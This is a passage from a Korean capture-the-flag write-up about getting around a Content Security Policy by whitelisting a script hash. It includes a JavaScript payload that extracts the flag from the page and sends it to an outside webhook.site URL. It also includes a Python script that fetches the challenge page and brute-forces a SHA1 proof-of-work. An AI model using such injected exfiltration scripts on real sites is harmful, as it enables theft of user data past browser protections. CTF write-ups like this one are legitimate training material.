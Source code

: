 ```js

ERR Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'sha256-T6tKNQwfih13TFq8aD3/5XSY4Z3ahWY3fQdP7kE7Y3w='". Either the 'unsafe-inline' keyword, a hash ('sha256-oVXtSIZ6oNv1VsBLKmao2GyCIe7BBHc/4lk633L90Uc='), or a nonce ('nonce-...') is required to enable inline execution.
```

결과 값을 확인해보면 script-src의 sha 값이 "sha256-T6tKNQwfih13TFq8aD3/5XSY4Z3ahWY3fQdP7kE7Y3w=" 인 것을 확인할 수 있습니다.

이러한 값을 csp 헤더에 script-src sha 값으로 설정하게 되면, 기본적으로 설정된 flag_container 관련 스크립트는 실행되지 않고 해당 sha 값을 사용한 script만 실행되게 됩니다.

script는 정규표현식을 사용해 FLAG 값을 webhook으로 전달하는 코드를 작성합니다.

```js
const regex = /eval\(([^)]+)\)/g; let st = ''; while ((matches = regex.exec(document.getElementById("flag_container").innerHTML)) !== null) {st+=matches[1];}location.href="https://webhook.site/b1d8c7e2-0203-453e-b7c6-8d36d365655c?flag="+btoa(st);
```

위 코드는 eval에서 "//" 뒤의 부분만 "flag_container"에서 가져와서 webhook으로 전달합니다.

Full Exploit 코드는 아래와 같습니다.

```python
import hashlib
import requests
import random
import itertools

script = open('script.js', 'r').read()

ascii = "abcdefghijklmnopqrstuvwxyz0123456789!@#$%"

nonce = ""
check = ""

flag = 0

hashText = ""

def sha1(text):
    m = hashlib.sha1()
    m.update(text.encode('utf-8'))
    return m.hexdigest()

res = requests.get("http://58.229.185.61:8000/index.php", cookies={
    "PHPSESSID": "29c7ee02fbc11aeba1831e18e4a84581"
})

nonce = res.text.split("sha1")[1].split("==")[0].split('"')[1]

hashText = res.text.split("sha1")[1].split("==")[1].split("</code>")[0].strip()

leakCheck = ""

for brute in itertools.product(ascii, repeat=5):
    check = ''.join(brute)
    if sha1(nonce + check) == hashText:
        leakCheck = check
        print("hash leak!, check : ", check)
        break


print("Send Pow : ", leakCheck)

```